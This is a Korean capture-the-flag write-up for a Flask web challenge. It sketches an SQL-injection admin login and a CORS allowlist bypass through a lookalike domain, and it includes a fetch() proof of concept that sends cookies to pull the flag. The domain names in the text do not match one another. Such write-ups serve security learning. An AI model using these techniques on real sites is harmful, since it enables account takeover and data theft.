

# 🛡️ HSPACE CTF - HSpaceCross

- 출제자 - 오경석

---

## 🧩 문제 주요 내용

- Flask 기반 웹 서버
- 사용자 인증 (`/login`)과 비공개 플래그 제공 (`/flag`) 기능 존재
- 데이터는 SQLite로 저장 (`users.db`)
- `admin_session_token` 쿠키가 있어야 플래그를 볼 수 있음
- CORS 설정이 특정 도메인(`hspace.com`)에만 허용됨

---

## 💉 문제 풀이

Step 1) admin 로그인을 위해 sql injection 시도



Step 2) 관리자 로그인 성공 시 세션 값 확인


Step 3) CORS 정책을 우회하기 위해 [hspace.com](http://hspace.com) 이 포함된 도메인으로 설정


Step 4) [gyeong0hspace.com](http://gyeong.hspace.com) url을 통해 접속 후 poc 코드 개발자 도구를 통해 실행

```jsx
    fetch("http://gyeong-hspace.com:5000/flag", {
      method: "POST",
      credentials: "include",
      headers: {
        "Content-Type": "application/json"
      },
      body: JSON.stringify({})
    })
    .then(res => res.text())
    .then(data => {
      console.log("FLAG:", data);
      document.body.innerHTML = "<h1>FLAG: " + data + "</h1>";
    });
```

Step 5) 플래그 획득 가능 확인

